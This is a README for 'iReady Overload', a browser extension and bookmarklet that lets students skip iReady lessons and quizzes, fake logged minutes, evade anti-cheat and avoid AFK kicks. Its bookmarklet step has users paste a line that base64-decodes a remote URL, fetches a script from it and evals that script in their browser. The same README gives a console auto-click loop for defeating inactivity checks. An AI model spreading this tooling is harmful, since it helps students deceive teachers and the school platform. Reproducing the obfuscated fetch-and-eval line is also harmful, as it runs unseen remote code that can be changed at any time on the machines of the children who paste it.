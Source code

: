 <h1 align="center">iReady Overload</h1>
<h3 align="center">One of the BEST up to date iReady hacks.</h3>
<h2 align="center">Discord Support Server: https://discord.gg/scs9eapdS7</h2>

iReady is awful. It's the worst education tool anyone could ever use. I'm fed up with being forced to mindlessly watch the result of a greedy corporation that doesn't try in the SLIGHTEST to make their product enjoyable, or even acceptable. This repository is a collection of hacks and a chrome extension that ensures nobody has to suffer through iReady ever again. The current version has a lesson, quiz skipper, and a minutes hack.

I am not the creator of this project, I am constanting updating the program to work with iReady's code. THIS is a cheat, I am not responsible if iReady sends info to your teachers that you are using this program it is not my fault. credit to ArjhanToteck for originally making this and also cupiditys (but they both deleted their project.) 


## How To Use:

- Download the chrome extension by downloading the files
Go to "chrome://extensions/", and on the top right make sure "Developer mode" is turned on (if your school blocks this, see the bookmarklet below) then unzip chromeExtension.zip and drag the "iReady Overload" folder onto the page and ur good.

## Bookmarklet

- A bookmarklet can be used instead of the chrome extension, incase your school has blocked extentions. To do this:

-   Make a bookmark (the star on the right side of the top url/search bar if you are using chrome)
-   Click on more at the bottom left corner
-    Delete everything in the url box
-    Type javascript:
-    Paste in the following code fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vY3VwaWRpdHlzL3Jhdy91cGxvYWQvdjE2MzgzNDExMjEvYm9va21hcmtsZXQuanM=')).then((res) => res.text().then((t) => eval(t))) (this will make iReady Overload auto-update)
    
- Alternatively, you can use this version if the other one is not working for whatever reason (this one will not auto-update)

## How to avoid being AFK-kicked

press ctrl + shift + i, press console tab at top and paste the stuff below in and obviously press enter.
```
setInterval(lol, 60000)
function lol() {
    document.getElementById("btn-footer-MY_PROGRESS").click()
    document.getElementById("btn-footer-TO_DO").click()
}
```

# Extra

credit to ArjhanToteck for originally making this and Cupiditys (but they deleted their project/repo)

also I am not responsible if iReady alerts your account to your teachers and bans your account (but this is very unlikely due to the anticheat being really bad). ONLY use this program at your own risk.

I am also updating the program whenever I can to fit iReady anti-cheat to prevent any bans. If you have any problems, issue a ticket in our discord.
